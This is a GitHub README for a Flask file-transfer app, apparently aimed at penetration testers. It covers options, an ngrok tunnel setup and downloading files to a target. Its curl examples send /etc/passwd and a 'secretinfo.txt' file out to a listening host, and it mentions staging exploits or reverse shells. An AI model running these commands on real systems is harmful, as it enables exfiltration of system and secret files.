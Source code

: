 # Uploader
Download/Upload Python App - duppy

Simple Flask App to Upload Files

Perfect for spinning up if needing to transfer files over via the command line or browser.
```python
python Uploader.py -h
usage: Uploader.py [-h] [-P PORT] [-H HOST] [--upload-folder UPLOAD_FOLDER]

Simple Flask File Uploader

options:
  -h, --help            show this help message and exit
  -P PORT, --port PORT  Port Number to listen On - Default 5000
  -H HOST, --host HOST  Interface to listen on - Default all
  --upload-folder UPLOAD_FOLDER
                        Upload file path - Default 'cwd'
```

Spins up a Flask App
```python
python Uploader.py -H 192.168.0.29 -P 8000 --upload-folder C:\Users\gd\Downloads
 * Serving Flask app 'Uploader'
 * Debug mode: off
WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
 * Running on http://192.168.0.29:8000
Press CTRL+C to quit
192.168.0.29 - - [08/Feb/2024 20:48:14] "POST / HTTP/1.1" 302 -
192.168.0.29 - - [08/Feb/2024 20:48:14] "POST /done HTTP/1.1" 200 -
```

## In Browser
Can Upload and also Download Files to the Target if needed

![image](https://github.com/deeexcee-io/Uploader/assets/130473605/30baa38a-1a2b-4d4d-a8cc-5909cbcbca1d)


## Command Line
```bash
curl -L -s -X POST -F "file=@/etc/passwd" http://192.168.0.29:8000
File uploaded!
```
## ngrok Setup if accessing over the Internet

To simplify transferring over the internet to/from the local machine an ngrok free account covers all bases.
```
python Uploader.py -H 127.0.0.1 -P 5000 --upload-folder C:\Uploader\Files

.\ngrok.exe http 5000 --basic-auth="gd:SuperPassword"
```

![ngrok](https://github.com/deeexcee-io/Uploader/assets/130473605/269b7883-4615-469a-b958-5b15cdc0d668)

Enter Creds and you're good

![image](https://github.com/deeexcee-io/Uploader/assets/130473605/ebd9e686-6cbc-469d-a187-3b3bec50573e)

List is Dynamically Updated to show current files

![image](https://github.com/deeexcee-io/Uploader/assets/130473605/5b157912-b0ae-48e8-8006-84c2f476f437)


![image](https://github.com/deeexcee-io/Uploader/assets/130473605/8ff1ffe1-c314-4781-a520-53ea4917ceee)

### Command Line

Pass the basic auth creds with cURL
```
curl -u "gd:SuperPassword" -L -s -X POST -F "file=@secretinfo.txt" https://854d-11-11-11-11.ngrok-free.app
```

All FIles in the Current Directory are also Served and can be Downloaded if needed. For example transferring over an exploit/reverse shell

![image](https://github.com/deeexcee-io/Uploader/assets/130473605/ab51663d-fb7a-43a1-a99f-ac444fc71f27)





